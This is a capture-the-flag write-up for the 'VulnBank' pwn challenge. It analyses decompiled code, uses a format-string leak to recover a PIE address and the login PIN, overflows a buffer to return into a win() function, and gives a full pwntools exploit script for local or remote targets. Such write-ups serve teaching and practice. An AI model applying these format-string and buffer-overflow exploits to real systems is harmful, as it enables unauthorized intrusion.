



# VulnBank - Full RelRO + NX + PIE

## Synopsis
VulnBank is challenge that features leaking `some data` and performing `ret2win` attack

## Analysis

Current protections:
- Canary  : ✘
- NX      : ✓
- PIE     : ✓
- Fortify : ✘
- RelRO   : Full


The program's interface:


There's nothing interesting we need to go deeper

## Disassembly
```C
5568fab3de49    int32_t main(int32_t argc, char** argv, char** envp)

5568fab3de66        setvbuf(fp: stdin, buf: nullptr, mode: 2, size: 0)
5568fab3de84        setvbuf(fp: stdout, buf: nullptr, mode: 2, size: 0)
5568fab3dea2        setvbuf(fp: stderr, buf: nullptr, mode: 2, size: 0)
5568fab3deac        main_banner()
5568fab3deac        
5568fab3debd        if (login() != 0)
5568fab3decb            menu()
5568fab3dee9            puts(str: "Session ended.")
5568fab3dee9        
5568fab3def4        return 0
```

As we can see here, `main` only calls `login` and `menu` functions. I started with `login` one

```C
5568fab3d74e    int64_t login()

5568fab3d759        int32_t valid_pin = 0
5568fab3d760        int32_t att_count = 0
5568fab3d767        int32_t is_pin_set = 0
5568fab3d773        login_banner()
5568fab3d773        
5568fab3d9a3        while (true)
5568fab3d9a3            if (att_count u> 2)
5568fab3d9b3                puts(str: "Too many incorrect attempts.")
5568fab3d9c2                puts(str: "Your card has been retained by this VulnBank terminal.")
5568fab3d9d1                puts(str: "Please contact support.")
5568fab3d9d6                return 0
5568fab3d9d6            
5568fab3d78c            printf(format: "Enter 6 digit PIN: ")
5568fab3d79b            fflush(fp: stdout)
5568fab3d7be            char input[0x10c]
5568fab3d7be            
5568fab3d7be            if (fgets(buf: &input, n: 0x100, fp: stdin) == 0)
5568fab3d7be                break
5568fab3d7be            
5568fab3d7d4            uint64_t input_len = strlen(&input)
5568fab3d7d4            
5568fab3d7f6            if (input_len != 0 && input[input_len - 1] == '\n')
5568fab3d800                input[input_len - 1] = 0
5568fab3d800            
5568fab3d812            if (is_pin_set != 0 || att_count != 0)
5568fab3d851                if (is_pin_set == 0)
5568fab3d85d                    valid_pin = gen_pin()
5568fab3d860                    is_pin_set = 1
5568fab3d860                
5568fab3d87b                printf(format: &input, zx.q(valid_pin)) // VULNERABLE
5568fab3d812            else
5568fab3d823                printf(format: &input) // VULNERABLE
5568fab3d841                valid_pin = gen_pin()
5568fab3d844                is_pin_set = 1
5568fab3d844            
5568fab3d898            if (input[0] != 0)
5568fab3d8d4                if (atoi(nptr: &input) == valid_pin && att_count != 0)
5568fab3d917                    printf(format: "Welcome back, VulnBank customer #%06u.\n", 
5568fab3d917                        zx.q(valid_pin u% 0xf4240))
5568fab3d93a                    char* var_20_1 = getenv(name: "FLAG1")
5568fab3d93a                    
5568fab3d94e                    if (var_20_1 == 0 || *var_20_1 == 0)
5568fab3d957                        var_20_1 = "flag{now_repeat_against_remote_server}"
5568fab3d957                    
5568fab3d971                    printf(format: "Authentication flag: %s\n", var_20_1)
5568fab3d976                    return 1
5568fab3d976                
5568fab3d987                puts(str: "Incorrect PIN.")
5568fab3d98c                att_count += 1
5568fab3d898            else
5568fab3d8a4                puts(str: "Empty input is not a valid PIN.")
5568fab3d8a9                att_count += 1
5568fab3d8a9            
5568fab3d99a        
5568fab3d7c0        return 0
```

This function gives us **3** attempts to login, on first attempts its generating 6-digits ping with true random, so its impossible yo predict it in any way, on second and third attempt we can actually enter it. 

Lines with `// VULNERABLE` is vulnerable to **format string exploit**, so we can use our second attempt and leak pin-code with simple `%x`.



and now we're in the **menu**

```C
5568fab3d9dd    void menu()

5568fab3d9e8        int64_t var_10 = 0x539
5568fab3d9f0        int32_t i = 1
5568fab3d9f0        
5568fab3de38        while (i != 0)
5568fab3da01            menu_banner()
5568fab3da1c            printf(format: "Current available balance: ", var_10)
5568fab3da35            menu_commands()
5568fab3da58            char var_b8[0x80]
5568fab3da58            
5568fab3da58            if (fgets(buf: &var_b8, n: 0x80, fp: stdin) == 0)
5568fab3da58                break
5568fab3da58            
5568fab3da68            uint64_t rax_5 = strlen(&var_b8)
5568fab3da68            
5568fab3da8a            if (rax_5 != 0 && var_b8[rax_5 - 1] == 0xa)
5568fab3da94                var_b8[rax_5 - 1] = 0
5568fab3da94            
5568fab3daa6            int32_t OPTION = atoi(nptr: &var_b8)
5568fab3daa6            
5568fab3dab2            if (OPTION == 1)
5568fab3dad1                puts(str: "
5568fab3dad1                    ----------------------------------------------------------------")
5568fab3dae0                puts(str: "
5568fab3dae0                    ACCOUNT BALANCE                         ")
5568fab3daef                puts(str: "
5568fab3daef                    ----------------------------------------------------------------")
5568fab3db0a                printf(format: "Available funds: ", var_10)
5568fab3db19                puts(str: "Savings goal:    undefined.")
5568fab3db28                puts(str: "Financial stress: high.")
5568fab3db37                puts(str: "
5568fab3db37                    ----------------------------------------------------------------")
5568fab3dab2            else if (OPTION == 2)
5568fab3db64                puts(str: "
5568fab3db64                    ----------------------------------------------------------------")
5568fab3db73                puts(str: "
5568fab3db73                    DEPOSIT CASH                          ")
5568fab3db82                puts(str: "
5568fab3db82                    ----------------------------------------------------------------")
5568fab3db96                printf(format: "Enter amount to deposit: ")
5568fab3dba5                fflush(fp: stdout)
5568fab3dba5                
5568fab3dbc8                if (fgets(buf: &var_b8, n: 0x80, fp: stdin) == 0)
5568fab3dbc8                    break
5568fab3dbc8                
5568fab3dbe2                int64_t rax_14 = strtol(nptr: &var_b8, endptr: nullptr, base: 0xa)
5568fab3dbe2                
5568fab3dbf0                if (rax_14 s> 0)
5568fab3dc0a                    var_10 += rax_14
5568fab3dc24                    printf(format: "Deposited ", rax_14)
5568fab3dbf0                else
5568fab3dbfc                    puts(str: "Invalid amount.")
5568fab3db45            else if (OPTION == 3)
5568fab3dc51                puts(str: "
5568fab3dc51                    ----------------------------------------------------------------")
5568fab3dc60                puts(str: "
5568fab3dc60                    WITHDRAW CASH                         ")
5568fab3dc6f                puts(str: "
5568fab3dc6f                    ----------------------------------------------------------------")
5568fab3dc83                printf(format: "Enter amount to withdraw: ")
5568fab3dc92                fflush(fp: stdout)
5568fab3dc92                
5568fab3dcb5                if (fgets(buf: &var_b8, n: 0x80, fp: stdin) == 0)
5568fab3dcb5                    break
5568fab3dcb5                
5568fab3dccf                int64_t rax_19 = strtol(nptr: &var_b8, endptr: nullptr, base: 0xa)
5568fab3dccf                
5568fab3dcdd                if (rax_19 s<= 0)
5568fab3dce9                    puts(str: "Invalid amount.")
5568fab3dcdd                else if (rax_19 s<= var_10)
5568fab3dd15                    var_10 -= rax_19
5568fab3dd2f                    printf(format: "Please collect your ", rax_19)
5568fab3dcfb                else
5568fab3dd07                    puts(str: "Transaction declined: insufficient funds.")
5568fab3dc32            else if (OPTION == 4)
5568fab3dd58                puts(str: "
5568fab3dd58                    ----------------------------------------------------------------")
5568fab3dd67                puts(str: "
5568fab3dd67                    RECENT ACTIVITY                        ")
5568fab3dd76                puts(str: "
5568fab3dd76                    ----------------------------------------------------------------")
5568fab3dd85                puts(str: "  1) Contactless payment at BUG BOUNTY CAFE       - ")
5568fab3dd94                puts(str: "  2) Online purchase at VULN-HOODIE EMPORIUM      - ")
5568fab3dda3                puts(str: "  3) Cash withdrawal at VULNBANK TERMINAL         - ")
5568fab3ddb2                puts(str: "
5568fab3ddb2                    ----------------------------------------------------------------")
5568fab3dd3d            else if (OPTION == 0)
5568fab3ddc4                maintenance()
5568fab3ddbd            else if (OPTION != 9)
5568fab3de2f                puts(str: "Unrecognized selection. The keypad beeps in confusion.")
5568fab3ddcf            else
5568fab3ddea                puts(str: "Ejecting card...")
5568fab3ddf9                puts(str: "Please take your card.")
5568fab3de08                puts(str: "Thank you for using VulnBank.")
5568fab3de0d                i = 0
```

And there is nothing besides that it can call `maintenance` function if OPTION is set to `0`

```C
5568fab3d659    int64_t maintenance()

5568fab3d67a        puts(str: "================================================================")
5568fab3d689        puts(str: "                     VULNBANK SERVICE TERMINAL                  ")
5568fab3d698        puts(str: "================================================================")
5568fab3d6a7        puts(str: "Service channel open.")
5568fab3d6b6        puts(str: "Processing maintenance request from keypad interface.")
5568fab3d6d9        printf(format: "maintenance> ")
5568fab3d6e8        fflush(fp: stdout)
5568fab3d6fe        char buf[72]
5568fab3d6fe        ssize_t rax_1 = read(fd: 0, &buf, nbytes: 128) // BUFFER OVERFLOW
5568fab3d718        
5568fab3d72e        if (buf[rax_1 - 1] == 0xa)
5568fab3d738            buf[rax_1 - 1] = 0
5568fab3d738        
5568fab3d747        return puts(str: "Request queued for processing.")
```

and this functions contains **BoF**, also i noticed function that prints flag, so it should be easy

```C
5568fab3d575    void win() __noreturn

5568fab3d596        puts(str: "================================================================")
5568fab3d5a5        puts(str: "                     VULNBANK MAINTENANCE MODE                  ")
5568fab3d5b4        puts(str: "================================================================")
5568fab3d5c3        puts(str: "Technician override accepted.")
5568fab3d5d2        puts(str: "Bypassing customer safeguards, draining internal reserves...")
5568fab3d5f5        char* str = getenv(name: "FLAG2")
5568fab3d5f5        
5568fab3d609        if (str == 0 || *str == 0)
5568fab3d612            str = "flag{now_repeat_against_remote_server}"
5568fab3d612        
5568fab3d61d        puts(str)
5568fab3d63b        puts(str: "All internal cash reserves have been transferred to this session.")
5568fab3d64a        puts(str: "This incident will definitely not be logged. Probably.")
5568fab3d654        exit(status: 0)
5568fab3d654        noreturn
```

All we need is call it. In order to do that, we need to calculate its address **leaking** it from stack using **format string exploit** in `login`, and then exploiting **BoF** in `maintenance` overwriting rbp!

## Getting data
Firstly, we need to find any pie address in stack, we can use our format string exploit for it and a debugger



That's the 45th argument, we can retrieve it cosistently with `%45$p`, lets calculate the offset! 

`0x56357dc59ebb - 0x56357dc59575 = 0x946 (2374)`

now all we need is to find padding to overwrite rbp in `maintenance`



as we can see, our `buf` is `0x58` bytes from rbp, its `0x8*11` bytes. That's all we need!

## Quick overview of exploitation path
1. Leak pie address
2. Calculate address of `win` function
3. Leak PIN
4. Enter `maintenance` function
5. Rewrite `RBP` using **BoF**
6. Profit!

## Exploit:

```PY
from pwn import *
import argparse

OFFSET = 2374

def leak_win_address(p):
    p.sendlineafter(b'Enter 6 digit PIN: ', b'%45$p')
    address_big = int(p.readline().strip(), 16) - OFFSET
    address_litte = p64(address_big)
    return address_litte

def enter_maintenance(p):
    p.sendlineafter(b'Enter 6 digit PIN: ', b'%x')
    pin = str(int(p.readline().strip(), 16)).encode()
    p.sendlineafter(b'Enter 6 digit PIN: ', pin)

    p.readuntil(b'flag: ')
    flag = p.readline().decode('utf-8')[:-1]
    log.success('Flag: ' + flag)

    p.sendlineafter(b'Select option: ', b'0')

def trigger_win(p, win):
    p.sendlineafter(b'maintenance> ', b'AAAAAAAA'*11+win)

    p.readuntil(b'reserves...\n\n')
    flag = p.readline().decode('utf-8')[:-1]
    log.success('Flag: ' + flag)

def exploit(p):
    win_addr = leak_win_address(p)
    enter_maintenance(p)
    trigger_win(p, win_addr)

def main():
    parser = argparse.ArgumentParser(
            prog='exploit',
            description='exploit for VulnBank (NahamCon CTF)',
            usage='%(prog)s [path | ip:port]')
    parser.add_argument('target', help='path or ip:port of target binary')
    args = parser.parse_args()

    if ':' in args.target:
        target = args.target.split(':')
        p = remote(target[0], int(target[1]))
    else:
        p = process(args.target)

    exploit(p)

if __name__ == '__main__':
    main()
```